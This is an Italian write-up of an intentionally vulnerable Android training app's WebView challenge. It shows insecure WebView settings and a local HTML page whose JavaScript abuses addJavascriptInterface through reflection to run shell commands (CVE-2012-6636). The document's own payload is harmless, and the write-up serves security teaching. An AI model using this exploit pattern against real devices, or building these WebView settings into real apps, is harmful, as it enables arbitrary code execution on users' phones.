 ## OMTG-ENV-005-WEBVIEW-LOCAL

> app/src/main/java/sg/vp/owasp_mobile/OMTG_Android/OMTG_ENV_005_WebView_Local.java

```java
WebView webView = (WebView) findViewById(C0000R.id.webView2);

webView.getSettings().setJavaScriptEnabled(true);
webView.getSettings().setAllowFileAccessFromFileURLs(true);
webView.setWebChromeClient(new WebChromeClient());
webView.addJavascriptInterface(new JavaScriptInterface(), "jsinterface");
webView.loadUrl("file:///android_asset/local.htm");
```

> assets/local.htm

```html
<h1 style="color: #5e9ca0;">This is a local test page loading a remote JavaScript !</h1>

<!--
<img src="file:///storage/emulated/0/Bsd_daemon.jpg">
-->

<div id="div1"></div>

<script>
var String = window.jsinterface.getSomeString();
alert(String);

function execute(cmd){
  return window.jsinterface.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(cmd);
}

execute(['/system/bin/sh','-c','echo \"mstg\" > /storage/emulated/0/mstg.txt']);
</script>
```

- la chiamata a `setJavaScriptEnebled()` permette alla WebView di eseguire codice JavaScript

- la chiamata a `setAllowFileAccessFromFileURLs()` permette l'esecuzione di cross-origin request nel contesto di un URL file schema

- la chiamata a `addJavascriptInterface()` definisce un bridge nativo tra JavaScript e Java

- l'exploit che si basa sul file `local.htm` è applicabile solo
su Android 4.1 o inferiori (CVE-2012-6636).
Mentre per le versioni successive ad Android 4.1 è necessario che i metodi invocati tramite JavaScript abbiano l'annotazione `@JavascriptInterface`



Exploit:

- estrai il file `local.htm` dalla directory `assets/` nell'apk `/data/app/<package-name>/base.apk`

- analizza le operazioni eseguite tramite JavaScript

oppure

- usa il secondo exploit usato per [OMTG-ENV-005-WEBVIEW-REMOTE.md](./README-OMTG-ENV-005-WEBVIEW-REMOTE.md) e identifica i metodi degli oggetti Java accessibili da JavaScript tramite cui puoi eseguire codice arbitrario a livello Java